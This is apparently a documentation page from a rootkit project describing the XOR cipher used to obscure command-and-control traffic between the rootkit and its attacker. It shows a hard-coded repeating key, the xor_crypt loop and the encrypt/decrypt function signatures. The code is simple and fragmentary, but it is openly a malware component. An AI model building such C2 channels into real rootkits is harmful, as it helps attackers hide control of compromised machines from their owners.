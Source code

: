 ```yaml
---
title: "Encryption"
description: "XOR-based communication encryption for C2 traffic"
icon: "lock"
date: "2025-05-30T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 513
---
```




## Implementation

```c
/* XOR key (32 bytes) */
static const u8 XOR_KEY[] = {
    0x01, 0x23, 0x45, 0x67, 0x89, 0xab, 0xcd, 0xef,
    0x01, 0x23, 0x45, 0x67, 0x89, 0xab, 0xcd, 0xef,
    0x01, 0x23, 0x45, 0x67, 0x89, 0xab, 0xcd, 0xef,
    0x01, 0x23, 0x45, 0x67, 0x89, 0xab, 0xcd, 0xef
};

static void xor_crypt(const u8 *input, u8 *output, size_t length)
{
    for (i = 0; i < length; i++) {
        output[i] = input[i] ^ XOR_KEY[i % XOR_KEY_SIZE];
    }
}
```

XOR cipher with key rotation - same operation for encryption and decryption.

## Functions

```c
int encrypt_message(const char *plaintext, char **ciphertext, size_t *outlen)
int decrypt_message(const char *ciphertext, size_t cipherlen, char **plaintext)
```


All C2 communication between rootkit and attacking program is automatically encrypted.
